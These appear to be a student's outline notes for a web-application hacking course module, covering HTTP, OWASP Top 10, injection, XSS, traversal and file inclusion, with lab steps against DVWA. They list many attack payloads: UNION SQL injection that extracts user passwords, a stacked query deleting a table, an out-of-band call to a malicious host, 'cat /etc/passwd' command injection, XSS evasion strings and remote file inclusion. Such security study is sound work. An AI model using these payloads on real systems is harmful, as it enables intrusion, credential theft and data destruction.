

6.1 Web Attacks and OWASP Top 10
6.1.2 The HTTP Protocol
Client - Proxy - Internet - HTTP Server
HTTP Request (Client - Server)
Open TCP Connection <->
HTTP Request ->
HTTP Response <-
tcpdump - capture HTTP request
HTTP Method:
GET
HEAD
POST
TRACE
PUT
DELETE
OPTIONS
CONNECT
HTTP URL Structure
https://theartofhacking.org:8123/dir/test;id=89?name= omar&x=true
scheme (https://)
host (IP address of theartofhacking.org)
port (8123)
path (/dir/test;)
path-segment-params (id=89)
query-string (?name=omar&x=true)
HTTP 1.1 Exchange

HTTP 2.0 Multiplexing

6.1.4 Web Sessions
PHPSESSID (PHP)
JSESSIONID (J2EE)
CFID and CFTOKEN (ColdFusion)
ASP.NET_SessionId (ASP.NET)
Encrypt session id
Hide the framework with generic name
6.1.6 OWASP Top 10
6.1.7 Lab - Website Vulnerability Scanning
Part 1: Launch Nikto and Perform a Basic Scan
Part 2: Use Nikto to Scan Multiple Web Servers
Part 3: Investigate Web Site Vulnerabilities
Part 4: Export Nikto Results to a File
└─$ nikto -h 172.17.0.2 -o scan_results.htm
6.1.8 Lab - GVM Vulnerability Scanner
Part 1: Scan a Host for Vulnerabilities
Part 2: Exploit a Vulnerability Found by GVM
-------------------------------------
6.2 How to Build Your Own Web Application Lab
Kali Linux
Parrot OS
-------------------------------------
6.3 Business Logic Flaws
Unverified ownership
Authentication bypass using an alternate path or channel
Authorization bypass through user-controlled key
Weak password recovery mechanism for forgotten password
Incorrect ownership assignment
Allocation of resources without limits or throttling
Premature release of resource during expected lifetime
Improper enforcement of a single, unique action
Improper enforcement of a behavioral workflow
-------------------------------------
6.4 Injection-Based Vulnerabilities
SQL injection
HTML injection
Command injection
Lightweight Directory Access Protocol (LDAP)
6.4.2 SQL Injection
SELECT
UPDATE
DELETE
INSERT INTO
CREATE DATABASE
ALTER DATABASE
CREATE TABLE
ALTER TABLE DROP TABLE
CREATE INDEX
DROP INDEX
Data definition language (DDL)
Data manipulation language (DML)
Transaction control
Session control
System control
Embedded SQL

Categories:
In-band SQL injection
Out-of-band SQL injection
Blind SQL injection
# Detect injectable SQL
https://store.h4cker.org/buystuff.php?id=99 AND 1=2
SELECT * FROM products WHERE product_id=99 AND 1=2
# Valid query after detected
https://store.h4cker.org/buystuff.php?id=99 AND 1=1
https://store.h4cker.org/buystuff.php?id=99; INSERT INTO users(username) VALUES ('omar')
Database Fingerprinting
# Analyze error messages
MySQL Error 1064: You have an error in your SQL syntax
# Microsoft SQL Server
Microsoft SQL Native Client error %u201880040e14%u2019
Unclosed quotation mark after the character string
# Microsoft SQL Server with Active Server Page (ASP)
Server Error in '/' Application
# Oracle
ORA-00933: SQL command not properly ended
# PostgreSQL
PSQLException: ERROR: unterminated quoted string at or near " ' " Position: 1
or
Query failed: ERROR: syntax error at or near
" ' " at character 52 in /www/html/buyme.php on line 69.
UNION
SELECT zipcode FROM h4cker_customers
UNION
SELECT zipcode FROM h4cker_suppliers;
https://store.h4cker.org/buyme.php?id=1234' UNION SELECT 1, user_name,password,'1','1','1',1 FROM user_system_data --
Booleans in SQL Injection
Out-of-Band Exploitation

https://store.h4cker.org/buyme.php?id=8||UTL_HTTP.request('malicious.h4cker.org')||(SELECT user FROM DUAL)--
Stacked Queries
1; DELETE FROM customers
SELECT * FROM customers WHERE customer_id=1; DELETE FROM customers
The Time-Delay SQL Injection Technique
Surveying a Stored Procedure SQL Injection
SQL Injection Mitigations
6.4.4 Command Injection
normal input here; cat /etc/passwd
6.4.6 Lightweight Directory Access Protocol (LDAP)
Authentication bypass
Information disclosure
6.4.7 Lab - Injection Attacks (DVWA)
# Detect SQL injection vulnerability
1' (error = yes vulnerable)
' OR 1=1# (true all)
# Find column size (size = 2)
' ORDER BY 1 #
' ORDER BY 2 #
' ORDER BY 3 # (error!)
' UNION SELECT 1,2 #
# DBMS version
' UNION SELECT 1, VERSION() #
# Database name
' UNION SELECT 1, DATABASE() #
# Table names from database
' UNION SELECT 1,table_name FROM information_schema.tables WHERE table_type='base table' AND table_schema='dvwa' #
# Column names from table
' UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name='users' #
# List columns in table
' UNION SELECT user, password FROM users #
# Crack password hashes in crackstation.net
-------------------------------------
6.5 Authentication-Based Vulnerabilities
6.5.2 Session Hijacking
Pre-authentication
Authentication
Session Management
Access Control
Session Finalization
PHP: PHPSESSID
J2EE: JSESSIONID
ColdFusion: CFID and CFTOKEN
ASP.NET: ASP.NET_SessionId
Attack method:
Predicting session tokens
Session sniffing
On-path attack (MITM)
6.5.4 Redirect Attacks
6.5.5 Default Credentials
6.5.6 Kerberos Vulnerabilities
6.5.8 Lab - Using Password Tools
Part 1: Investigate Password Attacks
Part 2: Hashcat
Part 3: John the Ripper
Part 4: RainbowCrack and Rainbow Tables
-------------------------------------
6.6 Authorization-Based Vulnerabilities
6.6.2 Parameter Pollution
https://store.h4cker.org/?search=cars
https://store.h4cker.org/?search=cars&results=20
https://store.h4cker.org/?search=cars&results=20&search=bikes
6.6.4 Insecure Direct Object Reference (IDOR)
https://store.h4cker.org/buy?customerID=1188
https://store.h4cker.org/changepassd?user=omar
6.7 Cross-Site Scripting (XSS)
Reflected XSS
Stored (persistent) XSS
DOM-based XSS
<script>alert(document.cookie)</script>
6.7.2 Reflected XSS Attacks
6.7.4 Stored XSS Attacks
6.7.6 XSS Evasion Techniques
<img src="javascript:alert('xss');">
<img src=javascript:alert('xss')>
<img src=javascript:alert("XSS")>
<a onmouseover="alert(document.cookie)">This is a malicious link</a>
<img src=javascript&
#x3Aalert('XSS')>
¼script¾alert(¢XSS¢)¼/script¾
<EMBED SRC=”data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH
A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcm
cvMjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3
hsaW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaW
dodD0iMjAwIiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdC
I+YWxlcnQoIlhTUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml"
AllowScriptAccess="always"></EMBED>
<iframe src="http://h4cker.org"></iframe>
-------------------------------------
6.8 Cross-Site Request Forgery (CSRF) and Server-Side Request Forgery Attacks (SSRF)
password_new=test&password_conf=test&Change=Change#
-------------------------------------
6.9 Clickjacking
-------------------------------------
6.10 Security Misconfigurations
6.10.2 Directory Traversal
http://192.168.78.8:66/vulnerabilities/fi/?page=../../../../../etc/passwd
%2e%2e%2f is the same as ../
%2e%2e/ is the same as ../
..%2f is the same as ../
%2e%2e%5c is the same as ..
6.10.4 Cookie Manipulation Attacks
Stored DOM-based attacks
-------------------------------------
6.11 File Inclusion
6.11.2 Local File Inclusion
http://192.168.78.8:66/vulnerabilities/fi/?page=../../../../../etc/passwd
6.11.3 Remote File Inclusion
http://192.168.78.8:66/vulnerabilities/fi/?page=http://malicious.h4cker.org/malware.html
-------------------------------------
6.12 Exploiting Insecure Code Practices
6.12.2 Comments in Source Code
6.12.3 Lack of Error Handling and Overly Verbose Error Handling
6.12.5 Hard-Coded Credentials
6.12.6 Race Conditions
6.12.7 Unprotected APIs
Simple Object Access Protocol (SOAP)
Representational State Transfer (REST)
GraphQL
Swagger (OpenAPI)
Web Services Description Language (WSDL)
Web Application Description Language (WADL)
6.12.9 Hidden Elements
<input type="hidden" id="123" name="price" value="100.00">
6.12.10 Lack of Code Signing
6.12.11 Additional Web Application Hacking Tools
Burp Suite
OWASP Zed Attack Proxy (ZAP)
gobuster
ffuf
feroxbuster
6.12.13 Lab - Use the OWASP Web Security Testing Guide
Part 1: Investigate the WSTG
Part 2: Owasp ZAP scanner
<END>